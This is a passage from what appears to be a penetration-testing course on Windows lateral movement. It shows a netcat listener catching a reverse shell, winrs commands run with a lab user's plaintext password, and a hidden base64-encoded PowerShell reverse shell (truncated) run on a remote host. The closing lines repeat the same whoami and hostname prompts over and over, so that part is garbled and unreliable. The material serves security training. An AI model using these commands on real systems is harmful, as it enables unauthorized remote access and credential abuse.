 > Listing 8 - Executing the WMI payload with base64 reverse shell

From the output in Listing 8, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> whoami
corp\jen
```

> Listing 9 - Executing the WMI payload with base64 reverse shell

Nice! We indeed managed to move laterally and gain privileges as the _jen_ domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [_WS-Management_](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [_winrs_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the _\-r:_ argument and the username with _\-u:_ and password with _\-p_. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as _jeff_ on CLIENT74 and provide _jen_'s credentials as command arguments.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

> Listing 10 - Executing commands remotely via WinRS

The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse shell we wrote earlier.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname